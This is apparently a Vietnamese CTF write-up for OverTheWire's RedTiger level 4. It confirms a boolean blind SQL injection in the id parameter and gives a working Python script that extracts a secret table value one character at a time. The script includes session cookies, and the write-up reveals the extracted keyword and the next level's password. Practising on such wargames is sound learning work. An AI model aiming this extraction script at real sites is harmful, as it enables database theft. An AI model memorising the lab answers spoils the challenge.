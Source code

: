##BÁO CÁO level_4

-Đăng nhập vào đường dẫn `redtiger.labs.overthewire.org/level4.php`

-Klick vào `Click me`

-Ta sẽ được đường dẫn mới `http://redtiger.labs.overthewire.org/level4.php?id=1`

###1. Để biết nó có dính lỗi sql injection:

-Thử thêm vào sau nó 1 giá trị đúng và sai như sau:
	
	+ Với 'And 1=1' Thì trang sẽ không thay đổi 
	+ Với 'And 1=2' Thì trang không còn như ban đầu

	==> Chứng tỏ nó đã bị dính lỗi Blind SQL injection

**XEM THÊM ĐỂ BIẾT** : `http://voice0fblackhat.blogspot.com/2012/01/detailed-boolean-based-blind-injection.html`

###2. Cách khai thác:

-Sử dụng Python viết Code để truy vấn vào đoạn link Sql injection của mình và tìm ra pass

```sh
import urllib2
result=''
url1="http://redtiger.labs.overthewire.org/level4.php?id=1%20and%20ascii(substring((SELECT%20keyword%20FROM%20level4_secret)"
header={'Cookie': ' __cfduid=d1f7b235b221149a05ab3094a8200027e1483845382; __utma=176859643.1510925746.1483845385.1483845385.1483845385.1; __utmz=176859643.1483845385.1.1.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); level2login=4_is_not_random; level3login=feed_your_cat_before_your_cat_feeds_you; level4login=there_is_no_bug'}
for i in range(1,27):
	flag=True
	for y in range (32,123):
		if (flag==False):	
			break
		url=url1+',{},1))={}'.format(i,y)
		truyvan=urllib2.Request(url=url,headers=header)
		source=urllib2.urlopen(truyvan).read()
		if  "1 rows" in source:
			result=result+chr(y)
			flag=False
print result

```

##Keyword thu được: `killstickswithbr1cks!`

##The password for the next level is: there_is_a_truck

	BÁO CÁO KẾT THÚC